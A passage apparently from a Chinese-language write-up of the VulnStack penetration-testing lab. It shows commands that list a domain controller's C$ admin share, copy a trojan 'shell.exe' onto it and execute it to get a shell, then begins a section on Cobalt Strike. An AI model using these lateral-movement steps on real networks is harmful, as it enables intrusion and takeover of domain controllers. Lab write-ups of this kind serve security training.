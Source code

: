 使用dir可以看到域控资源
dir \\192.168.52.138\c$
![img](VulnStack(1)/images/image-17.png)

将win7上的木马传到域控上
copy c:\Windows\Temp\shell.exe \\192.168.52.138\c$

直接
\\192.168.52.138\c$\shell.exe
![img](VulnStack(1)/images/image-19.png)

即可getshell 

拿下域控


前面采用的是纯MSF的打法 MSF存在一些弊端 实战用的更多的还是

# Cobalt Strike
